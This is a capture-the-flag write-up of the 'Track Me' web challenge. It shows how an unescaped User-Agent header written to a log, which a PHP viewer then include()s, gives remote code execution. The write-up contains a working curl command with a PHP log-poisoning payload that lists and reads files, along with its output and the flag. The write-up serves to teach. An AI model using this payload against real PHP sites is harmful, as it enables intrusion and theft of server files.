

<h1 align="center">📍 Track Me</h1>
<p align="center">
  <b>MetaCTF September 2026 Flash CTF Web Exploitation Write-Up</b>
</p>
<p align="center">
  <a href="https://compete.metactf.com/652/"></a>
  
  
</p>
<p align="center">
  Log Poisoning, PHP Local File Inclusion, and Remote Code Execution
</p>

---

# 📋 Environment

| Item       | Value                                                                                                        |
| ---------- | ------------------------------------------------------------------------------------------------------------ |
| Event      | [MetaCTF September 2026 Flash CTF](https://compete.metactf.com/652/) (MetaCTF has since rebranded as SkillBit) |
| Category   | Web Exploitation                                                                                            |
| Difficulty | Medium (150 pts, solved by 152 teams)                                                                        |
| Tools Used | curl, source review                                                                                          |
| Techniques | Log poisoning, PHP `include()` LFI, RCE, `glob()` for unknown filenames                                       |

---

# 🗺️ Overview

> *Every visit to the storefront leaves a mark. A small analytics box in the back office notes who came by, when they arrived, and how they got there. The owner reads it each morning over coffee, scrolling the day's arrivals like a guest book.*
>
> *It was bolted on years ago by a contractor who has not answered an email since. Nobody has looked at the code in all that time. The box still records faithfully, and the morning readout has never missed a line.*

Track Me is a small visitor-analytics site. Every request to the landing page appends the client's `User-Agent` header to `logs/access.log`, and the log viewer hands that same file to PHP's `include()`. Writing PHP source into the header puts it in the log, and loading the viewer runs it. That gives code execution as the web user, which is enough to read the flag off disk.

The challenge walks through:
* 🔎 Reading the source to find how visits are logged
* 🪤 Spotting that the log viewer `include()`s the log file
* 💉 Poisoning the log with PHP through the `User-Agent` header
* 🐚 Running that code and reading the flag from a randomly named file

The description's "the morning readout has never missed a line" is the whole bug: whatever a visitor sends is written to the log faithfully, and the log is then executed.

---

# 📑 Table of Contents

1. [Step 1 - Mapping the App](#step-1---mapping-the-app)
2. [Step 2 - The Unsanitized Log](#step-2---the-unsanitized-log)
3. [Step 3 - The Dangerous Include](#step-3---the-dangerous-include)
4. [Step 4 - Poisoning the Log](#step-4---poisoning-the-log)
5. [Step 5 - Reading the Flag](#step-5---reading-the-flag)
6. [Attack Chain Summary](#attack-chain-summary)
7. [Lessons and Takeaways](#lessons-and-takeaways)

---

# Step 1 - Mapping the App

The handout is the full source. Three files matter: `index.php` (the landing page), `logs.php` (the log viewer), and the Docker setup that plants the flag.

The landing page records the visit and links to `/logs.php`, which serves a single file, `access.log`. Loading it shows each visit with the `User-Agent` printed exactly as it was sent:

```text
$ curl -sk "$URL/logs.php?file=access.log"
==== Visit ====
Time: 2026-09-25 00:02:15
IP: 10.0.19.135
Method: GET
URI: /
Referer: https://compete.metactf.com/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:156.0) Gecko/20100101 Firefox/156.0
----------------
```

The `entrypoint.sh` shows where the flag lives:

```sh
RAND="$(head -c 8 /dev/urandom | od -An -tx1 | tr -d ' \n')"
FLAG_FILE="/flag-${RAND}.txt"
printf '%s\n' "$FLAG" > "$FLAG_FILE"
chmod 644 "$FLAG_FILE"
```

The flag is written **outside the web root**, to `/flag-<random>.txt`, and made **world-readable** on purpose. There's no static path to request over HTTP, so the challenge wants code execution that can list and read that file.

---

# Step 2 - The Unsanitized Log

`index.php` builds each log record by concatenating request fields, with no escaping, and appends it to the log:

```php
$ua = $_SERVER['HTTP_USER_AGENT'] ?? '-';
...
$log .= "User-Agent: $ua\n";
file_put_contents(__DIR__ . "/logs/access.log", $log, FILE_APPEND);
```

Whatever a client sends in `User-Agent` (and `Referer`, `URI`, `Method`) lands in `access.log` verbatim. That's attacker-controlled content written straight to a file on the server.

---

# Step 3 - The Dangerous Include

`logs.php` spends most of its length on a whitelist: it takes `basename()` of the requested name, matches it against a character regex, checks it against the files actually present in `logs/`, and runs the result through `realpath()`. Path traversal and classic LFI are all dead. Then it does this:

```php
// Safe include: only include files that are explicitly present in the logs directory
// This allows PHP in logs to execute, but prevents path traversal and LFI.
ob_start();
include $path;
$rendered = ob_get_clean();
```

The comment is honest about what it does. The whitelist only decides **which** file gets loaded; it says nothing about what's **inside** it. The chosen file, `access.log`, is `include()`-ed, so any PHP inside it executes. And half of `access.log` arrives from the client. The output is buffered and shown in the viewer's panel.

That's the whole chain: attacker-controlled text in the log, and the log is executed as PHP.

---

# Step 4 - Poisoning the Log

Sending a request with PHP in the `User-Agent` writes that code into the log. `curl`'s `-A` sets the header:

```bash
URL="https://cdec418b36067712.live.sbhost.io"

curl -sk "$URL/" \
  -A "<?php echo '@@'; foreach (glob('/flag-*.txt') as \$f) { echo file_get_contents(\$f); } echo '@@'; ?>" \
  -o /dev/null
```

The payload wraps its output in `@@` markers, then uses `glob('/flag-*.txt')` to find the flag file no matter what random name it was given, and `file_get_contents()` to read it. It has to stay on one line, since an HTTP header can't contain a newline, so multiple statements are chained with `;` and a single `foreach`.

---

# Step 5 - Reading the Flag

Loading the viewer parses the poisoned log and runs the payload. The flag comes back inside the log panel:

```text
$ curl -sk "$URL/logs.php?file=access.log"
...
User-Agent: @@SkillBit{7r4ck1n9_u53r5_c4n_7r4ck_y0u_t00}
@@----------------
...
```

The `glob()` and the read both ran inside `include()`, and their output came back through the viewer alongside the rest of the log.

> [!TIP]
> The flag file ends in a newline, so the two `@@` markers land on different lines and a single-line `grep -oP '@@\K.*?(?=@@)'` matches nothing. Strip newlines first:
>
> ```bash
> curl -sk "$URL/logs.php?file=access.log" | tr -d '\n' | grep -oP '@@\K.*?(?=@@)'
> ```

---

# 🚩 Flag

```text
SkillBit{7r4ck1n9_u53r5_c4n_7r4ck_y0u_t00}
```

---

# Attack Chain Summary



---

# Lessons and Takeaways

## Vulnerabilities Encountered

|#|Vulnerability|CWE|Location|
|---|---|---|---|
|1|Unsanitized user input written to a log|CWE-117|`index.php` (`User-Agent` → `access.log`)|
|2|Log poisoning to code execution via `include()`|CWE-98|`logs.php` (`include $path`)|
|3|Improper control of code generation / RCE|CWE-94|`include()` of attacker-controlled content|

---

## Key Habits Reinforced

* **`include()` on Any Writable File Is RCE:** A whitelist that controls the filename does nothing if the file's contents are attacker-controlled. Log files, uploads and session files are all classic poisoning targets.
* **Attacker-Controlled Headers Reach Disk:** `User-Agent`, `Referer` and the request line are all logged verbatim here. Never treat request metadata as trusted.
* **Let the Payload Find the Target:** When a filename is randomized, `glob()` inside the payload beats guessing. The flag being world-readable and outside the web root was a deliberate nudge toward RCE.
* **Mind Newlines in Output Parsing:** The flag's trailing newline split the `@@` markers across lines. Normalizing with `tr -d '\n'` before matching avoids an empty result.

---

Written by **TheDingo8MyBaby**
MetaCTF September 2026 Flash CTF • Track Me
